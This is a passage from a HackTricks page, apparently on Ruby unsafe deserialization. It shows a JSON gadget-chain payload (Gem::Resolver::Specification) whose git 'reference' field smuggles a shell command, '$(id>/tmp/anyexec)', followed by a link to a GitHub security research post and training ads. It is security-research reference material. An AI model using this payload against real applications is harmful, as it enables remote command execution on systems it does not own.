 ```json
"git": "zip",
"reference": "-TmTT=\"$(id>/tmp/anyexec)\"",
"root_dir": "/tmp",
"repository": "anyrepo",
"name": "anyname"
},
"spec": {
"^o": "Gem::Resolver::Specification",
"name": "name",
"dependencies": []
}
}
}
```
Check for more details in the [**original post**](https://github.blog/security/vulnerability-research/execute-commands-by-sending-json-learn-how-unsafe-deserialization-vulnerabilities-work-in-ruby-projects/?utm\_source=pocket\_shared).

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Support HackTricks</summary></details>
{% endhint %}
